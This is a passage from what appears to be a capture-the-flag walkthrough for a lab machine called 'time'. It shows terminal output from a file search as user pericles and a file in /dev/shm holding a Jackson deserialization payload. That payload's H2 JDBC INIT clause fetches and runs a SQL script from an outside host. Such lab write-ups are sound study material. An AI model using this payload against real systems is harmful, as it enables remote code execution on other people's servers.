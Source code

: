 in lxd directory

```text
pericles@time:/home/pericles/snap/lxd/17886/.config/lxc$ find / -group pericles 2>/dev/null
/usr/bin/timer_backup.sh
/dev/shm/payloadah34hL
/proc/989
...snipped proc files
/home/pericles
/home/pericles/.gnupg
/home/pericles/.gnupg/trustdb.gpg
/home/pericles/.gnupg/pubring.kbx
/home/pericles/.bashrc
/home/pericles/.bash_logout
/home/pericles/user.txt
/home/pericles/.profile
/home/pericles/.config
/home/pericles/.config/procps
/home/pericles/.local
/home/pericles/.local/share
/home/pericles/.local/share/nano
/home/pericles/snap
/home/pericles/snap/lxd
/home/pericles/snap/lxd/17886
/home/pericles/snap/lxd/17886/.config
/home/pericles/snap/lxd/17886/.config/lxc
/home/pericles/snap/lxd/17886/.config/lxc/config.yml
/home/pericles/snap/lxd/common
/home/pericles/snap/lxd/current
/home/pericles/snap/lxd/17936
/home/pericles/snap/lxd/17936/.config
/home/pericles/snap/lxd/17936/.config/lxc
/home/pericles/snap/lxd/17936/.config/lxc/config.yml
/home/pericles/.cache
/home/pericles/.cache/motd.legal-displayed
/tmp/hsperfdata_pericles
/tmp/hsperfdata_pericles/75713
/var/www/html
/opt/json_project/parse.rb
/opt/json_project/classpath
/opt/json_project/classpath/h2-1.4.199.jar
/opt/json_project/classpath/jackson-databind-2.9.8.jar
/opt/json_project/classpath/logback-core-1.3.0-alpha5.jar
/opt/json_project/classpath/jackson-core-2.9.8.jar
/opt/json_project/classpath/jackson-annotations-2.9.8.jar
```

I did a search for files that the group `pericles` had access to.

```text
pericles@time:/dev/shm$ ls -la
total 4
drwxrwxrwt  2 root     root       60 Mar 16 21:30 .
drwxr-xr-x 18 root     root     3980 Mar 16 14:16 ..
-rw-------  1 pericles pericles  161 Mar 16 21:30 payloadah34hL
pericles@time:/dev/shm$ cat payloadah34hL 
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.159:8082/test.sql'"}]
```
